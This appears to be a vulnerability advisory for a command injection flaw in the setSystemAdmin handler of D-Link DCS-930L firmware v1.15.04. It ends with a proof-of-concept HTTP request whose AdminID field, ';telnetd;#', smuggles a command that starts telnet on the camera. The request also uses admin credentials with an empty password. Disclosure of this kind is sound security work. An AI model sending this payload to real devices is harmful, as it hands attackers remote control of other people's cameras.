





**Affected Product**: D-Link DCS930L

**Affected Firmware Versions**:  v1.15.04

**Vulnerability Type**: Command Execution


------
### **Vulnerability Description**

A command injection vulnerability exists in the setSystemAdmin function of the alphapd binary in D-Link DCS-930L firmware v1.15.04. The AdminID parameter is directly taken from user input and inserted into shell commands without proper sanitization, allowing remote attackers to execute arbitrary OS commands via crafted requests.


---
### **Vulnerability Details**

In the `setSystemAdmin` handler of the `alphapd` binary, the input is first checked in `CheckSystemVar`.



Then, the function further checks `AdminID`. However, `checkrangestring` only cleans up HTML whitespace characters in the input string and limits the input length to a minimum of 1 and a maximum of 12, without restricting the content.


The `AdminID` value comes directly from attacker-controlled input. Because the input is not properly restricted, it is directly inserted into the shell command, which allows the attacker to construct an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 330
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=';telnetd;#&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=539a63634c9a634a9a63cfc3635b0563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563&SessionKey=1325376377&ConfigSystemAdmin=Save
```

